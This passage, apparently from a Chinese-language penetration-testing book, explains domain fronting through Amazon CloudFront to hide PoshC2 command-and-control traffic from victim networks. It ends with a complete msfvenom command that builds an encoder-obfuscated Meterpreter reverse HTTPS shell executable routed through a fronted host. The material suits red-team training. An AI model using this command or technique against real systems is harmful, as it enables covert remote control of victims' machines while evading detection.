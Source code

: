     图 13.31：使用我们创建的 AWS 云分发启动 PoshC2

    在这个例子中，我们将使用`vijayvelu.com`主机将域名请求转发到我们的 C2 服务器。在连接到 Amazon Web Services 之前，应用程序将执行 DNS 查找，将域名解析为网络 IP 地址。请求将直接发送到`vijayvelu.com`主机，并带有我们在 Amazon CloudFront 分发中创建的主机头。

    从 Wireshark 捕获的请求数据包将类似于*图 13.32*：

    ![](img/B17765_13_32.png)

    图 13.32：DomainFrontHost 与我们的托管服务器之间的 TCP 流通信

1.  一旦有效载荷在受害者机器上执行，您应该能够看到植入物报告，而受害者网络中不会有攻击者 IP 地址的任何痕迹。所有流量看起来都像是合法的连接到 AWS 以及所展示的域名：![](img/B17765_13_33.png)

    图 13.33：成功将利用工具植入目标，并实现域前端攻击

攻击者还可以利用 Metasploit。我们将创建一个利用工具，通过`msfvenom`提供一个 Meterpreter 反向 HTTP shell，使用进行转发的域名以及我们的头注入，如下所示：

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https lhost=<VULNERABLEHOST> lport=443 httphostheader=< CloudFront address> -e x86/shikata_ga_nai -i 8 raw | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/bloxor -i 9 -f exe -o Domainfront.exe 
```
